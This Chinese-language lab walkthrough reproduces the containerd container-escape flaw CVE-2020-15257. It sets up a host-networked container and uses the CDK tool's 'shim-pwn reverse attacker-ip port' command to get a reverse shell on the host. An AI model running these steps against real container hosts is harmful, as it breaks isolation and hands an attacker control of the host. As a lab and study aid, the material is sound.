

# Docker容器逃逸漏洞（CVE-2020-15257）

## 场景介绍

Containerd 是一个控制 runC 的守护进程，提供命令行客户端和API，用于在一个机器上管理容器。

在版本1.3.9之前和1.4.0~1.4.2的Containerd中，由于在**网络 模式为host**的情况下，容器与宿主机共享一套 Network namespaces ，此时 containerd-shim API 暴露给了用户，而且访问控制仅仅验证了连接进程的有效UID为0，但没有限制对抽象Unix域套接字的访问，刚好在**默认情况下，容器内部的进程是以root用户启动**的。在两者的共同作用下，容器内部的进程就可以像主机中的containerd一样，连接containerd-shim监听的抽象Unix域套接字，调用containerd-shim提供的各种API，从而实现容器逃逸。

## 环境搭建

漏洞环境准备：

```
./metarget cnv install cve-2020-15257
```

## 漏洞复现

使用以下命令启动容器:

```
sudo docker run -it -–net=host --name=15257 ubuntu /bin/bash
```

在容器内执行命令`cat /proc/net/unix|grep -a "containerd-shim"`，查看结果确认是否可看到抽象命名空间Unix域套接字:



在攻击端监听1234端口，然后下载漏洞利用工具cdk（https://github.com/cdk-team/CDK）并将其传入容器/tmp目录下：

```
sudo docker cp cdk_linux_amd64 15257:/tmp
sudo docker exec -it 15257 bash
```

运行工具，执行反弹shell命令,验证得到一个宿主机的shell:

```
cd /tmp
./cdk_linux_amd64 run shim-pwn reverse attacker-ip port
```

## 参考文献

https://mp.weixin.qq.com/s/WmSaLPnG4o4Co1xRiYCOnQ

https://www.cdxy.me/?p=837